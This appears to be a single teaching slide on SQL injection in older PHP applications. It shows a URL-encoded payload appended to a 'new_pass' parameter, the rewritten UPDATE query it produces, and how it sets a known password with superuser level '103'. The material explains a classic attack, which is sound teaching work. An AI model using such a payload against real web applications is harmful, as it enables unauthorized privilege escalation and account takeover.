

# Exploit
Only works against older versions of PHP
User appends this to the URL:
&new_pass=badPwd%27%29%2c
user_level=%27103%27%2cuser_aim=%28%27

SQL query becomes
UPDATE users SET user_password=md5(‘badPwd’),
             user_level=‘103’, user_aim=(‘????????’)
WHERE user_id=‘userid’
This sets $new_pass to
badPwd’), user_level=‘103’, user_aim=(‘
User’s password is
set to ‘badPwd’
… with superuser privileges
slide 40